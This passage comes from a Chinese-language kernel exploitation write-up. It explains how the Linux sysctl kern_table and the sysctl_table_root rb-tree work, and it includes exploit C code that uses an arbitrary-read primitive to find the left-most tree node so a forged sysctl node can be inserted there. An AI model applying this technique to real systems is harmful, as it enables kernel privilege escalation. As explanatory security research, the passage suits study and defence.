 ```
static struct ctl_table kern_table[] = {
    {
        .procname   = "sched_child_runs_first",
        .data       = &amp;sysctl_sched_child_runs_first,
        .maxlen     = sizeof(unsigned int),
        .mode       = 0644,
        .proc_handler   = proc_dointvec,
    },
#if defined(CONFIG_PREEMPT_TRACER) || defined(CONFIG_IRQSOFF_TRACER)
    {
        .procname       = "preemptoff_tracing_threshold_ns",
        .data           = &amp;sysctl_preemptoff_tracing_threshold_ns,
        .maxlen         = sizeof(unsigned int),
        .mode           = 0644,
        .proc_handler   = proc_dointvec,
    },
    {
        .procname       = "irqsoff_tracing_threshold_ns",
        .data           = &amp;sysctl_irqsoff_tracing_threshold_ns,
        .maxlen         = sizeof(unsigned int),
        .mode           = 0644,
        .proc_handler   = proc_dointvec,
    },

...
```

例如，第一个变量名为“sched_child_runs_first”，这意味着可以通过/proc/sys/kernel/sched_child_runs_first对其进行访问。由于文件模式为0644，因此只能由root执行写入（适用于SELinux限制），且这是一个整数。读写过程是由proc_dointvec函数处理，该函数将在访问文件时转换整数与字符串的不同表示形式。Data字段指向变量在内存中的位置，因此它就成为了获得任意读取/写入原语的一个重要目标。<br>
我们最初尝试将其中一些变量作为目标，但随后意识到，这个表实际上仅在内核初始化期间使用。这意味着，损坏该表的内容，对我们似乎并不是很有帮助。但是，这个表会用于创建一组内存结构，这些内存结构定义了现有的sysctl变量及其权限。<br>
这些结构可以通过分析sysctl_table_root结构来找到，该结构包含一个ctl_node节点的rb-tree，然后指向定义变量本身的ctl_table表。由于我们已经具有读取原语，因此我们可以解析树，并找到其中最左侧的节点，该节点不包含子节点。<br>
在正常情况下，这个树的外观如下所示（我们只展现了左侧的子连接，以保证图示具有可读性）：

[![](./img/202810/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d3b9d8e240441fd5.png)

如果查看这些节点的字母顺序，可以看到左子节点都是按照字母来降序排列。实际上，这就是这些树中的平衡规则：左子节点必须比当前节点低，而右子节点必须更高。<br>
因此，为了保证树的平衡，需要使用我们的写原语，向最左边节点添加名称以“aaa”开头的左子节点。下面代码将在prev_node中找到树的最左节点，这将会作为我们虚假节点的插入点：

```
/* Now we can prepare our magic sysctl node as s child of the left-most node */

uint64_t sysctl_table_root = kernel_base + SYSCTL_TABLE_ROOT_OFFSET;
printf("[+] sysctl_table_root = %lxn", sysctl_table_root);
uint64_t ctl_dir = sysctl_table_root + 8;

uint64_t node = read64(ctl_dir + 80);
uint64_t prev_node;
while (node != 0) {
   prev_node = node;
   node = read64(node + 0x10); 
}
```
